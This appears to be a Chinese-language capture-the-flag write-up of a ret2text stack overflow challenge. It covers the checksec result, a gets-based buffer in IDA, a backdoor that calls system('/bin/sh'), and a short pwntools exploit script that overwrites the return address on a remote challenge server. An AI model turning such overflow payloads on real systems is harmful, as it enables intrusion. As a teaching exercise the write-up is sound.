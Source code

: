 ### ret2text

栈溢出题，先checksec一下,发现**NX**开启

![](assets\ret2text-checksec.png)

然后观察IDA，发现**backdoor**函数中含有**system("/bin/sh")**，以及**vuln**函数通过gets读取数据，长度为**64**字节，64位程序，所以偏移位为**64+8=72**

![ret2text-backdoor](assets\ret2text-backdoor.png)

![ret2text-vuln](assets\ret2text-vuln.png)

编写脚本

```py
from pwn import *

r = remote("47.76.55.63",25996)

move = 0x40 + 8
payload = b"a"*move + p64(0x004011E5)

r.sendline(payload)
r.interactive()
```
